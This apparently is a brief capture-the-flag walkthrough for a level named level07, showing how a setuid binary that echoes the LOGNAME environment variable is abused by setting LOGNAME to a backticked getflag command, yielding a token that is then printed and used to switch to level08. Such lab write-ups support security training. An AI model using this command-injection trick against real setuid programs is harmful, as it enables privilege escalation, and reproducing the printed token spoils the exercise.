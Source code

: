 ## Check files in home

ls -la

->  -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

## check level07, this files have permissions in flag07 when executed then with string

string level07

```bash
	LOGNAME
	/bin/echo %s 
```

# to exploit then we need to change the value of env LOGNAME "LOGNAME=level07"

```bash
	export LOGNAME=\`getflag\`
```

# finally execute level07 script

./level07

->  Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

## Log in to user level07
su level08 (password: fiumuikeil55xe9cu4dood66h)